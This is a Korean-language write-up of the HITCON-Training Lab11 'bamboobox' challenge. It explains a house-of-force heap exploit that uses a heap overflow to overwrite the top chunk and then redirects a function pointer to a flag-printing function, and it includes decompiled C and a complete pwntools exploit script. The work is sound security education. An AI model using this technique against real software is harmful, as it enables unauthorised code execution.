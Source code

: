 ```yaml
---
title: "[HITCON-Training]Lab11"
date: 2020-1-11
tags: [hitcon]
categories: [HITCON-Training]
---
```


checksec은 그냥 pie빼고 다 걸려있다.

```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

magic함수가 있는데 이거 호출해주면 될거같다.

```c
void __noreturn magic()
{
  int fd; // ST0C_4
  char buf; // [rsp+10h] [rbp-70h]
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fd = open("/home/bamboobox/flag", 0);
  read(fd, &buf, 0x64uLL);
  close(fd);
  printf("%s", &buf);
  exit(0);
}
```

main 함수를 보면 *v3에 `hello_message` *v3[1]에 `goodbye_message` 각각 힙 영역에 저장해둔다. 

처음에 `hello_message` 를 실행해준다. 근데 case 5 보면  `(v3[1])(&buf, &buf);` 이런게 있는데 여기서 함수 포인터를 magic으로 바꿔서 실행해주면 될거다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // [rsp+8h] [rbp-18h]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = malloc(16uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  (*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        (v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

house of force 문제다. 익스 시나리오는 아래와 같다.

1. add로 할당

32만큼 할당해줬다.

![](https://user-images.githubusercontent.com/32904385/72174400-058c5400-341d-11ea-8955-d64477b008df.png)

2. top chunk 덮음

edit에서 heap overflow나서 top chunk header랑 size부분 덮어준다. 

![](https://user-images.githubusercontent.com/32904385/72174402-0624ea80-341d-11ea-95a9-35d8a90aa9be.png)

3. add로 main_arena.top 변경

malloc(-88)

![](https://user-images.githubusercontent.com/32904385/72174403-06bd8100-341d-11ea-8a9c-8dbf47979d00.png)

4. add로 `goodbye_message` 함수 포인터 `magic` 으로 덮음

5. 5번 메뉴 호출하면 `(v3[1])(&buf, &buf);` 은 `magic` 함수를 가르키고 있어서 magic함수 호출

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./bamboobox')
p = process('./bamboobox')
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x,y: p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
magic = e.symbols['magic']

def show():
	sla(':','1')

def add(length,name):
	sla(':','2')
	sla(':',str(length))
	sa(':',name)

def edit(index,length,name):
	sla(':','3')
	sla(':',str(index))
	sla(':',str(length))
	sa(':',name)

def remove(index):
	sla(':','4')
	sla(':',str(index))

add(32,'AAAA')
edit(0,48,'B'*40 + p64(0xffffffffffffffff)) # top chunk dup
#raw_input()
add(-88,'BBBB')
add(16, p64(magic)*2)
#raw_input()
sla(':','5')

p.interactive()
```

